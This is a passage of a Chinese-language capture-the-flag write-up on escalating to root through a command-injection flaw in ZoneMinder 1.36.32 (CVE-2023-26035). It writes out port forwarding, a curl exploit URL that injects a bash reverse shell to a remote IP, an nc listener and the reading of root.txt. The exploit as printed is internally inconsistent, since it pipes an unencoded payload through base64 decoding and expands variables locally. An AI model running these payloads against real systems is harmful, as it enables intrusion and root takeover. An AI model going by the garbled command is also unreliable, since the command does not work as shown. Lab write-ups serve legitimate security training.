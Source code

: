 ```bash
netstat -tulpn
ps aux | grep zone
```

發現 **ZoneMinder** 監控系統運行在內部端口 8080。

```bash
curl http://127.0.0.1:8080
```

確認版本：**ZoneMinder 1.36.32**

### Port Forwarding

使用 SSH 進行端口轉發：

```bash
ssh -L 8080:127.0.0.1:8080 matthew@10.10.11.245
```

### CVE-2023-26035 - ZoneMinder Authentication Bypass

ZoneMinder 存在認證繞過漏洞，配合 Snapshot 功能的命令注入可以實現 RCE。

**漏洞鏈：**
1. 通過 `?view=snapshot` 繞過認證
2. 利用 `scale` 參數注入命令
3. 以 `root` 權限執行（因為 ZoneMinder 服務以 root 運行）

### Exploitation

```bash
# 反向 shell payload
PAYLOAD="bash -c 'bash -i >& /dev/tcp/10.10.14.15/5555 0>&1'"

# Exploit URL
curl "http://127.0.0.1:8080/zm/index.php?view=snapshot&scale=\$(echo${IFS}${PAYLOAD}|base64${IFS}-d|bash)&monitor=1"
```

在本地監聽：

```bash
nc -lvnp 5555
```

成功獲得 root shell！

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
```

## Flags
